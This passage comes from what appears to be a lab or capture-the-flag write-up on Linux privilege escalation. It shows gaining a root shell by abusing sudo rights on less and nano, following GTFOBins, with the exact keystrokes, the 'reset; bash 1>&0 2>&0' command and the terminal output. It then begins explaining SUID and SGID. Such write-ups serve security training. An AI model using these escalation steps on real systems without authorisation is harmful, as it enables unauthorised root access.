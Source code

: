 We know that we have 2 other programs with sudo permissions. Let's explore if and how we could abuse those to break out of our restricted shell...

### Abusing `less` for PrivEsc

  The `less` program is utility used to read through files. If we reference the GTFOBins page, there is a way that we can try to escape this restricted shell. Let's run `sudo less /etc/profile` while in the program use `!` followed by `bash` and return:

```sh
karen@ip-10-10-23-165:/tmp$ whoami
karen
karen@ip-10-10-23-165:/tmp$ sudo less /etc/profile
root@ip-10-10-23-165:/tmp# whoami
root
root@ip-10-10-23-165:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
root@ip-10-10-23-165:/tmp# 
```

We found us another way to PrivEsc!

### Abusing `nano` for PrivEsc

2 Down, 1 to go. Let's take a look at how we can leverage nano to give us a root shell. Let's execute `sudo nano`, once in the program `CTRL+R`, `CTRL+X`

```sh
karen@ip-10-10-23-165:/tmp$ sudo nano
Command to execute: reset; bash 1>&0 2>&0                        
^G Get Help          M-F New Buffer       ^X Read File
^C Cancel            M-\ Pipe Text
                        [ Executing... ]root@ip-10-10-23-165:/tmp# lset Help          M-F New Buffer       ^X Read File
snap.lxdl            M-\ Pipe Text
systemd-private-5fba076f5ebf42238c7cb385a53fdce3-systemd-logind.service-u9RhYf
systemd-private-5fba076f5ebf42238c7cb385a53fdce3-systemd-resolved.service-g9QwOg
systemd-private-5fba076f5ebf42238c7cb385a53fdce3-systemd-timesyncd.service-ZrpeOg
root@ip-10-10-23-165:/tmp# whoami
root
root@ip-10-10-23-165:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
root@ip-10-10-23-165:/tmp# 
```

Awesome! We were able to get a root shell with all 3 programs!

# Privilege Escalation: SUID

There is an additional permission we can leverage. We know the the regular permissions `rwx`, but there is 2 additional permissions that can be set. Those are the `SUID` (Set-User IDentification) and `SGID` (Set-Group IDentification) which allow the target files to be executed with the permissions of the owner (for the SUID case) or the group (for the SGID case).
